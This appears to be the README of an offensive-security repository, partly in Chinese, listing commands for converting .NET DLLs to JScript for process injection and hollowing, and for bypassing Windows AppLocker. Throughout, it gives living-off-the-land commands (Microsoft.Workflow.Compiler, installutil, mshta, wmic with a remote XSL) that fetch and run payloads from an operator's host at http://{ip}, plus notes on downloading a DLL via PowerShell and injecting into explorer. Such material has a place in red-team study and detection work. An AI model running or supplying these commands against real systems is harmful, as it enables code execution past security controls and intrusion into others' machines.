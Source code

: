 ## DotNet2JScript
__Inject__
```
C:\tools\DotNetToJScript-master\DotNetToJScript\bin\Release\DotNetToJScript.exe \\192.168.26.132\visualstudio\project\out\dll\TestClass1.dll --lang=JScript ==ver=v4 -o \\192.168.26.132\visualstudio\project\out\js\script1.js 
```

__Hollowing__
```
C:\tools\DotNetToJScript-master\DotNetToJScript\bin\Release\DotNetToJScript.exe \\192.168.26.132\visualstudio\project\out\dll\TestClass2.dll --lang=JScript ==ver=v4 -o \\192.168.26.132\visualstudio\project\out\js\script2.js 
```

<details><summary>思路</summary></details>

---
## 绕过Applocker
__Compiler__

http://{ip}/out/other/test.xml

http://{ip}/out/other/test.txt
```
C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe test.xml test.txt
```

__installtuil__

调用powershell下载dll和ps1，net反射dll

http://{ip}/out/exe/BypassCLM.exe 

调用powershell注入explorer

http://{ip}/out/exe/BypassCLM_ps_inject.exe

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U <路径>
```
<details><summary>思路</summary></details>


__hta__

http://{ip}/out/other/bypassAppLocker.hta

```
C:\Windows\System32\mshta.exe http://{ip}/out/other/bypassAppLocker.hta
```
<details><summary>其他思路</summary></details>

__xsl__

http://{ip}/out/other/data.xsl

```
wmic process get brief /format:"http://{ip}/out/other/data.xsl
```
